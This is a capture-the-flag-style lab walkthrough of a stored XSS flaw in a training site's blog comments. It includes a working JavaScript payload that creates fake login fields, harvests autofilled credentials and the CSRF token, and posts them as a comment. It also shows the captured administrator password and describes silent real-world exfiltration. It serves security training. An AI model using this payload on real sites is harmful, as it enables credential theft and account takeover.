









# Exploiting Cross-Site Scripting to Capture Passwords

**Author:** Dnyaneshwar Yadav

---

## Overview

This lab contains a **Stored Cross-Site Scripting (XSS)** vulnerability in the blog comments function.

A simulated victim user views all comments after they are posted. The goal is to exploit this vulnerability to **exfiltrate the victim's username and password** using browser autofill functionality, then use these credentials to log in to the victim's account.

**Key Technique:** This lab demonstrates password capture by creating fake login fields that trigger browser autofill, extracting the credentials, and posting them as a comment.

**Goal:** Capture the victim's username and password, then impersonate them to solve the lab.

---

## Lab Information

- **Difficulty Level:** Practitioner
- **Vulnerability Type:** Stored XSS (Password Theft via Autofill)
- **Target:** Blog comment functionality
- **Constraint:** Cannot use external systems (Burp Collaborator alternative solution)

---

## Solution

### Step 1: Review the lab description

Open the lab and read the description carefully.

**Key points:**

* Stored XSS in blog comments
* Victim user views all posted comments
* Must exfiltrate victim's username **and password**
* Firewall blocks external systems
* Alternative solution: Exploit browser autofill feature



---

### Step 2: Test for XSS vulnerability with basic payload

Navigate to any blog post and submit a test comment with a basic XSS payload:

**Payload:**
```html
<script>alert(1)</script>
```

**Comment details:**
- Comment: `<script>alert(1)</script>`
- Name: `test`
- Email: `test@test.com`
- Website: `http://test.com`

Click **Post Comment**.



---

### Step 3: Analyze CSRF protection in Burp Suite

Open **Burp Suite** and locate the comment submission request.

**Observation:**

The POST request to `/post/comment` includes:
- **csrf** token (required)
- **postId**
- **comment**
- **name**
- **email**
- **website**

**CSRF Token is mandatory** - Without it, comment submission fails.



---

### Step 4: Confirm XSS vulnerability

After posting the comment, the page reloads and the alert popup appears.

This confirms:
* **Stored XSS** vulnerability exists
* JavaScript executes when page loads
* All users viewing this post will execute our script



---

### Step 5: Inspect CSRF token location in DOM

Right-click on the page, select **Inspect**, and locate the form fields.

**Finding:**
```html
<input required="" type="hidden" name="csrf" value="...">
<input required="" type="hidden" name="postId" value="7">
```

**JavaScript to extract CSRF token:**
```javascript
document.getElementsByTagName('csrf')[0].value
```

or
```javascript
document.getElementsByName('csrf')[0].value
```

Both retrieve the CSRF token dynamically.



---

### Step 6: Understand the autofill exploitation strategy

**Concept:**

Modern browsers have an **autofill feature** that automatically fills username and password fields when detected.

**Exploitation steps:**

1. Create hidden username and password input fields
2. Browser detects these fields and autofills credentials
3. Use `onchange` event to detect when autofill occurs
4. Extract credentials from autofilled fields
5. Post credentials as a comment

---

### Step 7: Craft password-stealing payload

Create a complete payload that:
1. Creates username and password input fields
2. Captures autofilled credentials when they change
3. Extracts CSRF token dynamically
4. Posts credentials as a new comment

**Final Payload:**
```html
<input type="text" name="username">
<input type="password" name="password" onchange="callme()">
<script>
function callme(){
var csrf = document.getElementsByName('csrf')[0].value
var username = document.getElementsByName('username')[0].value
var password = document.getElementsByName('password')[0].value
var formdata = new FormData();
formdata.append('csrf',csrf);
formdata.append('postId',7);
formdata.append('comment',`${username},${password}`);
formdata.append('name','me');
formdata.append('email','mail@mail.com');
formdata.append('website','http://test.com');
fetch("https://0a27008204f0e815816c6100ea0062.web-security-academy.net/post/comment",{
method: 'POST',
mode: 'no-cors',
body: formdata
});
}
</script>
```

**Payload breakdown:**

* `<input type="text" name="username">` - Username field (triggers autofill)
* `<input type="password" name="password" onchange="callme()">` - Password field with onchange trigger
* `onchange="callme()"` - Executes function when autofill changes the field
* Extracts CSRF token, username, and password
* Uses `FormData()` to build POST request body
* Template literal `` `${username},${password}` `` posts credentials in comment
* `fetch()` sends POST request to submit new comment
* `mode: 'no-cors'` bypasses CORS restrictions



---

### Step 8: Post the malicious payload

Submit the complete payload as a comment:

- **Comment:** (Entire password-stealing script)
- **Name:** `anushka`
- **Email:** `anushka@anu.com`
- **Website:** `http://test.com`

Click **Post Comment**.


---

### Step 9: Stolen credentials appear in comments

When the victim (administrator) views the blog post:

1. The malicious script executes
2. Two input fields are created (hidden in DOM)
3. Browser detects password field and **autofills** saved credentials
4. `onchange` event fires when autofill occurs
5. `callme()` function captures credentials
6. New comment is posted automatically with stolen credentials

**Result:**

A new comment appears containing:
```
administrator,iffs5k2p7jwzlgpy6r9w
```

**Format:** `username,password`

This is the **administrator's credentials** captured via autofill.



---

### Step 9: Login with stolen credentials

Navigate to **My Account** page.

**Enter captured credentials:**
- **Username:** `administrator`
- **Password:** `iffs5k2p7jwzlgpy6r9w`

Click **Log in**.



---

### Step 10: Lab solved as administrator

After successful login, you are now logged in as **administrator**.

The lab is automatically marked as **Solved**.



---

## Result

Successfully exploited a **Stored XSS vulnerability** to:

* Identify stored XSS in blog comment functionality
* Analyze CSRF protection requirement
* Understand browser autofill behavior
* Create fake login fields to trigger autofill
* Capture credentials using `onchange` event handler
* Extract CSRF token dynamically
* Post stolen credentials as a comment using Fetch API
* Impersonate administrator using captured credentials

This lab demonstrates the **critical severity of XSS vulnerabilities** - attackers can capture passwords silently through browser autofill exploitation, leading to complete account takeover.

---

## Key Takeaway

**Why this works:**

Modern browsers try to be helpful by autofilling password fields. When our malicious script creates password input fields, the browser doesn't know they're fake - it just sees password fields and autofills them with saved credentials. The `onchange` event detects this autofill and immediately exfiltrates the credentials.

**Real-world impact:**

This technique bypasses many security controls because:
- No user interaction required
- Credentials are captured silently
- Works even with CSRF protection
- Exploits legitimate browser features

---

## Screenshots Folder Structure
```text
screenshots/
├── 01-lab-description.png
├── 02-basic-xss-test.png
├── 03-burp-csrf-token.png
├── 04-alert-popup.png
├── 05-devtools-csrf-field.png
├── 06-password-stealer-payload.png
├── 07-post-malicious-comment.png
├── 08-stolen-credentials-comments.png
├── 09-login-page.png
└── 10-lab-solved-admin.png
```

---

## Disclaimer

This repository is for educational purposes only. The techniques demonstrated here should only be used in authorized environments such as security labs and CTF challenges.

---
## Alternative Note

**Note on Lab Methodology:**

This solution posts stolen data publicly in the comments section for demonstration purposes only. While this approach successfully completes the lab, it is **far less subtle** than real-world attack techniques.

**In actual penetration testing scenarios:**

* **Burp Collaborator** or similar out-of-band tools would be used
* Data would be exfiltrated to an attacker-controlled server
* No visible traces would be left in the application
* The attack would remain undetected by casual observation

**Why this matters:**

As ethical hackers and penetration testers, we must:
- Minimize the exposure of sensitive data during testing
- Use the most professional and discreet methods available
- Avoid leaving unnecessary evidence that could be exploited by others
- Follow responsible disclosure practices

This lab uses the alternative method due to firewall restrictions, but in professional engagements, **always prefer out-of-band exfiltration methods** that don't publicly expose credentials.

---